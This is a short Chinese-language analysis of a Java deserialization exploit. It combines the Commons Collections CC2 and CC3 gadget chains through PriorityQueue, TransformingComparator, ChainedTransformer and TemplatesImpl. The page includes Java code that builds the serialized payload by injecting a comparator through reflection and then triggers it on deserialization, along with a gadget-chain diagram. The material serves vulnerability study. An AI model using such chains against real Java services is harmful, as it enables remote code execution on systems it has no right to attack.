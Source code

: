 ```java
        ChainedTransformer chain = new ChainedTransformer(trans);
        TransformingComparator transCom = new TransformingComparator(chain);
        PriorityQueue queue = new PriorityQueue(2);
        queue.add(1);
        queue.add(1);
        Field com = PriorityQueue.class.getDeclaredField("comparator");
        com.setAccessible(true);
        com.set(queue,transCom);
        ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("test.out"));
        outputStream.writeObject(queue);
        outputStream.close();

        ObjectInputStream inputStream=new ObjectInputStream(new FileInputStream("test.out"));
        inputStream.readObject();
    }
}
```

### Exp构造分析

其实就是CommonsCollections2和CommonsCollections3的组合

#### 利用链展示

```java
Gadget chain:
		ObjectInputStream.readObject()
			PriorityQueue.readObject()
				...
					TransformingComparator.compare()//1
						ChainedTransformer.transform()
                    		ConstantTransformer.transform()
                        		InstantiateTransformer.transform()
                            		TemplatesImpl.newTransformer()
```

注释1之前是CommonsCollections2的利用。

在TransformingComparator.compare()中触发this.transformer.transform(obj1)，后面就是CommonsCollections3的利用。

‍
